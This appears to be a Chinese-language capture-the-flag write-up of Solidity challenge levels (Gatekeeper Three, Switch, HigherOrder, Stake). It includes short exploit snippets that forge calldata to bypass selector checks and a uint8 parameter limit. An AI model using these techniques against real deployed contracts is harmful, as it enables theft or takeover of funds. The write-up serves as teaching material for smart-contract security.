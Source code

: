 ## 28. Gatekeeper Three ✅[Medium]

思路：
- 调用 construct0r 将 owner 设置为你的地址。
- 调用 createTrick 创建 SimpleTrick 实例。
- 找到 SimpleTrick 合约的 password。
- 调用 getAllowance(password) 将 allowEntrance 设置为 true。
- 确保合约余额大于 0.001 ether，并将 owner 地址设置为无法接收以太币的合约。
- 通过代理合约调用 enter 函数，绕过 gateOne 检查。
- 成功设置 entrant。

## 29. Switch ✅[Easy]

我的思路是直接调用flipSwitch，传入的参数是把bytes4(keccak256("turnSwitchOff()"))放在低次位的四个字节上
```solidity
function attack() public {
        // 构造 _data：
        // 前 4 字节是 turnSwitchOn 的选择器
        // 第 68-72 字节是 turnSwitchOff 的选择器
        bytes memory data = abi.encodeWithSelector(
            target.turnSwitchOn.selector // 实际调用 turnSwitchOn
        );

        // 在第 68-72 字节插入 turnSwitchOff 的选择器
        assembly {
            mstore(add(data, 0x44), shl(224, 0x9c60e39d)) // turnSwitchOff selector
        }

        // 调用 flipSwitch，触发目标逻辑
        target.flipSwitch(data);
}
```

## 30. HigherOrder ✅[Hard]

这关主要考察calldata的理解，在 Solidity 中，calldata 是函数调用时发送给合约的一段原始数据，包含以下结构：
函数选择器（前 4 字节）：决定调用哪个函数。
参数数据：紧跟选择器之后，包含函数的输入参数。
例如，对于 registerTreasury(uint8)，正常的 calldata 结构是：

[ 函数选择器 (4字节) ][ 参数 (32字节，实际是 uint8 范围内的值) ]

但由于 assembly 直接读取了第 4 字节以后的 32 字节 数据，整个参数范围被扩大了。可以通过手动构造 calldata 来传递超过 uint8 范围的值。

```solidity
// 手动发送 calldata，绕过 uint8 限制
bytes memory payload = abi.encodeWithSignature("registerTreasury(uint8)", uint256(256));
(bool success, ) = address(target).call(payload);
require(success, "Failed to register treasury");
```

## 31. Stake ✅[Medium]
